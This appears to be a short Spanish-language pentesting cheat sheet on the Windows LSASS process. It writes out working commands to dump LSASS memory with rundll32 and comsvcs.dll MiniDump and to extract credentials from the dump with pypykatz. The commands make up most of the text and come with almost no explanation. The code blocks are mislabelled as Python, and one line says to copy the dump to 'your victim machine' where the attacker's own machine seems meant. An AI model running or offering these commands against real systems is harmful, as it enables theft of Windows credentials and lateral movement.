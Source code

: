 # LSASS
## Descripción
SASS es un servicio crítico que desempeña un papel central en la gestión de credenciales y los procesos de autenticación en todos los sistemas operativos Windows

### Crear lsass.dmp usando powershell
```python
Get-Process lsass (obtener el PID del proceso lsass)
rundll32 C:\windows\system32\comsvcs.dll, MiniDump 672 C:\lsass.dmp full
```
Lo siguiente es pasar ese archivo a tu equipo victima, y luego podemos romperlo o ver lo oculto con pypykatz
```python
pypykatz lsa minidump /home/peter/Documents/lsass.dmp
```
